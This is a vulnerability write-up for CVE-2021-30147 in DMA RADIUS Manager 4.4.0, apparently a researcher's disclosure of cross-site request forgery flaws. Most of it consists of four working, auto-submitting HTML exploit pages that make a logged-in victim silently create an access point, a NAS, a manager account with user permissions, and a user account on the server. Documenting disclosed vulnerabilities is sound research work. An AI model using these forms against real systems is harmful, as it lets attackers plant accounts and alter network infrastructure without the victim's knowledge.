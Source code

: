 +++
title = "CVE-2021-30147 - CSRF"
+++

CVE-2021-30147 (DMA RADIUS Manager 4.4.0)

## CSRF - Creating Access Points

This exploit requires an attacker to have access to the web interface of the RADIUS Manager but an account isn't required (instead, this CSRF can be exploited in order to create an account for the attacker.). It also requires the victim to browse to our custom crafted webpage & be already logged in as a RADIUS user with the appropriate privileges for the certain action we want them to execute (EX: If we want the victim's account to create a new user account for us, the victim must be logged in as someone with sufficient privileges that allows them to create an account). 

By crafting a web page with the appropriate parameters for a POST request to the appropriate endpoint & having a victim visit our webpage, we're able to do various things by exploiting this vulnerability, such as:

* create a regular user or manager account
* create an access point
* create a new IP pool
* create a new CMTS
* create a new NAS
* create a new service plan

### Creating A New Access Point

The HTML for the website we'd use is:

```html
<html>

<body>
    <!-- change url to appropriate URL -->
    <form action="http://radmandemo.dmasoftlab.com/admin.php?cont=store_ap" method="POST">
        <input type="hidden" name="enable" value="1" />
        <input type="hidden" name="name" value="restbar" />
        <input type="hidden" name="ip" value="192.168.1.2" />
        <input type="hidden" name="accessmode" value="0" />
        <input type="hidden" name="community" value="5" />
        <input type="hidden" name="apiusername" value="S" />
        <input type="hidden" name="apipassword" value="S" />
        <input type="hidden" name="apiver" value="0" />
        <input type="hidden" name="description" value="" />
        <input type="hidden" name="Submit" value="Store AP" />
        <input type="hidden" name="id" value="" />
    </form>
    <script>
        document.forms[0].submit();
    </script>
</body>
</html>
```

All we need now is a victim that's logged in to browse to our webpage...and:

[See demo here](https://github.com/1d8/publications/blob/main/cve-2021-30147/demos/csrf-ap-2021-04-05-181829.gif)



### Creating A New NAS

HTML source code:

```html
<html>
	<body>
        <!-- change url to appropriate URL -->
		<form action="http://radmandemo.dmasoftlab.com/admin.php?cont=store_nas" method="POST">
			<input type="hidden" name="name" value="CSRF_EXAMPLE" />
			<input type="hidden" name="nasip" value="192.168.1.6" />
			<input type="hidden" name="type" value="0" />
			<input type="hidden" name="secret" value="CSRF_EX" />
			<input type="hidden" name="coamode" value="0" />
			<input type="hidden" name="apiusername" value="" />
			<input type="hidden" name="apipassword" value="" />
			<input type="hidden" name="apiver" value="0" />
			<input type="hidden" name="descr" value="" />
			<input type="hidden" name="Submit" value="Add NAS" />
		</form>
	<script>
		document.forms[0].submit();
	</script>

	</body>
</html>
```

Once victim browses to our webpage...:

[See demo here](https://github.com/1d8/publications/blob/main/cve-2021-30147/demos/csrf-addnas-2021-04-05-191251.gif)



### Adding A New Manager Account

HTML source code:

```html
<html>
	<body>
        <!-- change url to appropriate URL -->
		<form action="http://radmandemo.dmasoftlab.com/admin.php?cont=store_manager" method="POST">
			<input type="hidden" name="enablemanager" value="1" />
			<input type="hidden" name="managername" value="csrf_man" />
			<input type="hidden" name="password1" value="csrf" />
			<input type="hidden" name="password2" value="csrf" />
			<input type="hidden" name="firstname" value="" />
			<input type="hidden" name="lastname" value="" />
			<input type="hidden" name="company" value="" />
			<input type="hidden" name="address" value="" />
			<input type="hidden" name="city" value="" />
			<input type="hidden" name="zip" value="" />
			<input type="hidden" name="country" value="" />
			<input type="hidden" name="state" value="" />
			<input type="hidden" name="phone" value="" />
			<input type="hidden" name="mobile" value="" />
			<input type="hidden" name="email" value="" />
			<input type="hidden" name="vatid" value="" />
			<input type="hidden" name="lang" value="English" />
			<input type="hidden" name="comment" value="" />
			<input type="hidden" name="perm_listusers" value="1" />
			<input type="hidden" name="perm_createusers" value="1" />
			<input type="hidden" name="Submit" value="Add manager" />
		</form>
	<script>
		document.forms[0].submit();
	</script>
	</body>
</html>
```

And once victim browses to our webpage...:

[See demo here](https://github.com/1d8/publications/blob/main/cve-2021-30147/demos/csrf-addmanager-2021-04-05-19103.gif)



### Adding A New User

HTML source code:

```html
<html>
	<body>
        <!-- change url to appropriate URL -->
		<form action="http://radmandemo.dmasoftlab.com/admin.php?cont=store_user" method="POST">
			<input type="hidden" name="username" value="csrf_usr" />
			<input type="hidden" name="enableuser" value="1" />
			<input type="hidden" name="acctype" value="0" />
			<input type="hidden" name="password1" value="csrfusr" />
			<input type="hidden" name="password2" value="csrfusr" />
			<input type="hidden" name="maccm" value="" />
			<input type="hidden" name="mac" value="" />
			<input type="hidden" name="ipmodecpe" value="0" />
			<input type="hidden" name="simuse" value="1" />
			<input type="hidden" name="firstname" value="" />
			<input type="hidden" name="lastname" value="" />
			<input type="hidden" name="company" value="" />
			<input type="hidden" name="address" value="" />
			<input type="hidden" name="city" value="" />
			<input type="hidden" name="zip" value="" />
			<input type="hidden" name="country" value="" />
			<input type="hidden" name="state" value="" />
			<input type="hidden" name="phone" value="" />
			<input type="hidden" name="mobile" value="" />
			<input type="hidden" name="email" value="" />
			<input type="hidden" name="taxid" value="" />
			<input type="hidden" name="srvid" value="0" />
			<input type="hidden" name="downlimit" value="0" />
			<input type="hidden" name="uplimit" value="0" />
			<input type="hidden" name="comblimit" value="0" />
			<input type="hidden" name="expiration" value="2021-04-06" />
			<input type="hidden" name="uptimelimit" value="00:00:00" />
			<input type="hidden" name="credits" value="0.00" />
			<input type="hidden" name="contractid" value="" />
			<input type="hidden" name="contractvalid" value="" />
			<input type="hidden" name="gpslat" value="" />
			<input type="hidden" name="gpslong" value="" />
			<input type="hidden" name="comment" value="" />
			<input type="hidden" name="superuser" value="{SUPERUSER}" />
			<input type="hidden" name="lang" value="English" />
			<input type="hidden" name="groupid" value="1" />
			<input type="hidden" name="custattr" value="" />
			<input type="hidden" name="cnic" value="" />
			<input type="hidden" name="cnicfile1" value="(binary)" />
			<input type="hidden" name="cnicfile2" value="(binary)" />
			<input type="hidden" name="adduser" value="Add user" />
		</form>
	<script>
		document.forms[0].submit();
	</script>
	</body>
</html>
```

And one last visit from our victim to our webpage...:

[See demo here](https://github.com/1d8/publications/blob/main/cve-2021-30147/demos/csrf-addusr-2021-04-05-191131.gif)

